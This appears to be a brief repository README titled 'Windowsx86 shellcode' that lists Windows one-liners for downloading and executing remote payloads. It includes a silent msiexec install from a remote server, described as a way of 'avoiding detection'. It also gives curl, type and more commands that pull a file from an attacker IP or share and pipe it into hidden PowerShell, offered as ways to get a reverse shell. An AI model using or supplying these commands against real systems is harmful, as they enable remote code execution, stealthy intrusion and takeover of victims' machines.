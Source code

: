 # Windowsx86 shellcode

1). Windows installer is used to install software or a patch, but we can take advantage of this built in windows tool to download and execute remote payload in the background while avoiding detection.
	
	Command-Line:  msiexec /i http://server/package.msi /qn

2). Windows 10 version 1803 (and earlier, with insider build 17063) includes a native curl.exe in C:\Windows\System32\, which you can access right from your regular CMD.
	
	Command-Line: curl http://<attacker-ip>/<filename>.txt | powershell -w h

3). Some new ways of getting a reverse shell using windows one-liner:
	
	Command-Line: type \\<attacker-ip>\<filename>.txt | powershell -w h
	Command-Line: more \\<attacker-ip>\<filename>.txt | powershell -w h


Refer:
https://iamroot.blog/2019/01/28/windows-shellcode-download-and-execute-payload-using-msiexec/
